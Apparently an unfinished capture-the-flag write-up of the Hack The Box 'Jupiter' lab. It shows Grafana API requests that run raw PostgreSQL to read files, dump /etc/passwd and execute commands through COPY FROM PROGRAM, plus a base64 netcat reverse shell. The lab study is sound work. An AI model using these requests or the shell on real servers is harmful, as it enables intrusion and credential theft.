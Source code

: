 # Introduction
<img width="684" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/30184ea8-6e74-4147-8627-a560a4492ada">

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx jupiter.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- jupiter.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

we found a "Source" folder
we found a "sass" folder

sous domaine : kiosk.jupiter.htb
Grafana v9.5.2

http://kiosk.jupiter.htb/metrics

{db_name="grafana"}

http://kiosk.jupiter.htb/api/dashboards/uid/jMgFGfA4z
we found there is a user named admin

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select pg_read_file('/var/lib/grafana/grafana.db' , 0 , 1000000);","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":386}],"range":{"from":"2023-10-21T04:58:39.945Z","to":"2023-10-21T10:58:39.945Z","raw":{"from":"now-6h","to":"now"}},"from":"1697864319945","to":"1697885919945"}


SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=

/usr/share/grafana/README.md



root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
juno:x:1000:1000:juno:/home/juno:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution

DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table

echo cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuMzkgNjY2NiA+L3RtcC9mCg== > /tmp/shell.sh


{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS exploit; CREATE TABLE exploit(cmd_output text); COPY exploit FROM PROGRAM 'echo cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuMzkgNjY2NiA+L3RtcC9mCg== > /tmp/shell.sh'; SELECT * FROM exploit;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":656}],"range":{"from":"2023-10-24T12:33:59.955Z","to":"2023-10-24T18:33:59.955Z","raw":{"from":"now-6h","to":"now"}},"from":"1698150839955","to":"1698172439955"}

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"DROP TABLE IF EXISTS exploit; CREATE TABLE exploit(cmd_output text); COPY exploit FROM PROGRAM 'cat /tmp/shell.sh | base64 -d | bash &'; SELECT * FROM exploit;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":656}],"range":{"from":"2023-10-24T12:33:59.955Z","to":"2023-10-24T18:33:59.955Z","raw":{"from":"now-6h","to":"now"}},"from":"1698150839955","to":"1698172439955"}



{
        "tleroot":"/tmp/test",
        "updatePerdiod":1,
        "station": {     
                "id":1,
                "name":"hey"
        }
}
